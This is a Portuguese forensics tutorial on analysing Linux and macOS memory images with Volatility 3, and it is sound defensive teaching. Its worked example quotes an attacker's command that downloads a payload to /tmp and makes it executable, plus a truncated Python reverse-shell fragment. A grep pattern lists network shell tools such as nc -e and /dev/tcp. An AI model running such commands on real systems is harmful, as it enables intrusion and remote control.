

# Análise de Memória Linux e macOS

> **Objetivo pedagógico:** analisar imagens de memória de Linux e de macOS com o Volatility 3, tratando corretamente os símbolos, e identificar processos, módulos de kernel, conexões e artefatos de usuário, conhecendo as limitações específicas de cada plataforma.

## 1. Linux

### 1.1 Símbolos

O Volatility 3 precisa de uma tabela de símbolos (ISF) compatível com o kernel exato da captura.

| Etapa | Procedimento |
|---|---|
| Identificar o kernel | `vol -f mem.lime banners.Banners` (ou `strings mem.lime \| grep "Linux version"`) |
| Obter símbolos | Pacote `linux.zip` da Volatility Foundation, quando houver o kernel correspondente |
| Gerar símbolos | Obter o pacote de depuração do kernel da distribuição e usar o `dwarf2json` para gerar o arquivo ISF |
| Instalar | Copiar o ISF para a pasta `symbols` do Volatility 3 |

Registre a versão do kernel e a origem dos símbolos no relatório. Sem símbolos corretos, os plugins falham ou retornam resultados incorretos.

### 1.2 Plugins principais

| Pergunta | Plugin |
|---|---|
| Quais processos existiam e como estavam relacionados? | `linux.pslist.PsList`, `linux.pstree.PsTree`, `linux.psaux.PsAux` |
| Quais conexões e sockets? | `linux.sockstat.Sockstat` |
| Quais arquivos os processos mantinham abertos? | `linux.lsof.Lsof` |
| Que comandos foram digitados em shells? | `linux.bash.Bash` |
| Quais módulos de kernel estavam carregados? | `linux.lsmod.Lsmod` |
| Há hooks na tabela de syscalls? | `linux.check_syscall.Check_syscall` |
| Há regiões executáveis suspeitas? | `linux.malfind.Malfind` |
| Quais regiões de memória o processo mapeava? | `linux.proc.Maps` |
| Quais executáveis ELF estavam mapeados? | `linux.elfs.Elfs` |

```bash
vol -f mem.lime banners.Banners
vol -f mem.lime linux.pslist.PsList
vol -f mem.lime linux.pstree.PsTree
vol -f mem.lime linux.psaux.PsAux
vol -f mem.lime linux.sockstat.Sockstat
vol -f mem.lime linux.bash.Bash
vol -f mem.lime linux.lsmod.Lsmod
vol -f mem.lime linux.check_syscall.Check_syscall
vol -f mem.lime linux.malfind.Malfind
vol -f mem.lime -o ./saida linux.proc.Maps --pid 1234 --dump
```

Confirme os nomes e as opções dos plugins na sua versão (`vol --help`).

### 1.3 Anomalias a procurar em Linux

| Anomalia | Interpretação |
|---|---|
| Processo com nome de serviço legítimo, mas executável em `/tmp`, `/dev/shm` ou diretório oculto | Mascaramento |
| Processo com `exe` apagado ou originado em `memfd` | Execução sem arquivo ou binário removido |
| Shell com conexão de saída (`bash` ou `sh` com socket ESTABLISHED) | Reverse shell |
| Módulos de kernel não reconhecidos; divergência entre listas de módulos | Rootkit de kernel |
| Entradas da tabela de syscalls apontando fora do kernel | Hooks |
| Variável `LD_PRELOAD` no ambiente de processos | Interceptação de bibliotecas |
| Processos filhos incomuns de servidores web ou de serviços (`www-data` executando `sh`) | Web shell ou exploração |
| Comandos em `linux.bash` que revelam download e execução | Atividade interativa do atacante |

### 1.4 Contêineres

Os processos dos contêineres aparecem no host, com identificadores de namespace diferentes. Use `pslist` e `psaux` para identificar processos de contêineres (por exemplo, o pai `containerd-shim`) e correlacione com `docker inspect` e o procedimento de preservação da pasta 08.

## 2. macOS

| Aspecto | Observação |
|---|---|
| Símbolos | Exigem o pacote de símbolos do kernel correspondente (por exemplo, a partir do Kernel Debug Kit) ou o pacote `mac.zip` da Volatility Foundation, quando houver a versão exata |
| Aquisição | Fortemente limitada por SIP, T2 e Apple Silicon; ferramentas livres de captura completa de memória são restritas em versões recentes |
| Alternativas | Coleta ao vivo (processos, conexões, logs), `sysdiagnose`, Unified Logs, FSEvents, artefatos do usuário e soluções comerciais de captura quando disponíveis |
| Plugins típicos | `mac.pslist.PsList`, `mac.pstree.PsTree`, `mac.bash.Bash`, `mac.netstat.Netstat`, `mac.lsmod.Lsmod`, `mac.malfind.Malfind` |

```bash
vol -f mem.mac mac.pslist.PsList
vol -f mem.mac mac.bash.Bash
vol -f mem.mac mac.netstat.Netstat
```

Em macOS, declare no relatório as limitações de aquisição e a eventual falta de captura completa da memória; apoie as conclusões em outras fontes.

## 3. Busca por padrões e strings

```bash
# ASCII e UTF-16LE com deslocamentos
strings -a -td mem.lime > ascii.txt
strings -a -el -td mem.lime > unicode.txt

# Busca de indicadores
grep -i -E "ssh-rsa|BEGIN OPENSSH|curl |wget |/dev/tcp/|nc -e|base64 -d" ascii.txt | head -100

# Varredura YARA (regras próprias)
vol -f mem.lime yarascan.YaraScan --yara-file regras.yar
```

Os deslocamentos obtidos podem ser relacionados a processos com plugins de strings do Volatility 3 que aceitam um arquivo de strings; confirme o formato esperado na documentação da versão.

## 4. Extração de artefatos

| Artefato | Como obter |
|---|---|
| Executáveis e bibliotecas de processos | `linux.elfs.Elfs --pid <PID> --dump` e `linux.proc.Maps --pid <PID> --dump` |
| Regiões suspeitas | `linux.malfind.Malfind --dump` |
| Histórico de comandos em memória | `linux.bash.Bash` |
| Chaves e configurações | Strings, YARA e análise do processo |
| Arquivos em cache de página | Plugins de page cache disponíveis na versão e `linux.lsof` para identificar arquivos |

Calcule o hash de tudo o que for extraído e registre o processo e o endereço de origem.

## 5. Fluxo de análise para Linux



## 6. Exemplo prático: reverse shell em servidor web

| Plugin | Observação | Interpretação |
|---|---|---|
| `linux.pstree` | `apache2` → `sh` → `python3` | Processo filho incomum do servidor web |
| `linux.psaux` | `python3 -c 'import socket,os,pty;...'` | Reverse shell em Python |
| `linux.sockstat` | `python3` com conexão ESTABLISHED a IP externo porta 4444 | Canal de comando |
| `linux.bash` | `wget http://198.51.100.9/x -O /tmp/.x; chmod +x /tmp/.x` | Download e execução |
| `linux.lsof` | `/tmp/.x` aberto (arquivo excluído depois) | Binário em uso |
| Conclusão | Exploração do servidor web com execução remota e persistência a investigar; técnicas T1190, T1059.004, T1105 e T1071; confiança alta |

## 7. Casos de uso corporativos

- Resposta a incidentes em servidores Linux críticos com captura de memória.
- Análise de contêineres e de hosts com suspeita de escape.
- Documentação das limitações de aquisição em estações macOS.

## 8. Normas e frameworks relevantes

- MITRE ATT&CK (Linux, macOS e Containers): T1055.008, T1014, T1574.006, T1059.004, T1610, T1611
- NIST SP 800-86; ISO/IEC 27037:2012; NIST SP 800-190

## 9. Referências

- Ligh, M. et al. The Art of Memory Forensics. Wiley, 2014.
- Nikkel, B. Practical Linux Forensics. No Starch Press, 2021.
- Volatility Foundation. Documentação do Volatility 3 e do dwarf2json.
- SANS Institute. FOR577 e FOR526.
- Apple. Documentação de segurança da plataforma (SIP e Apple Silicon).
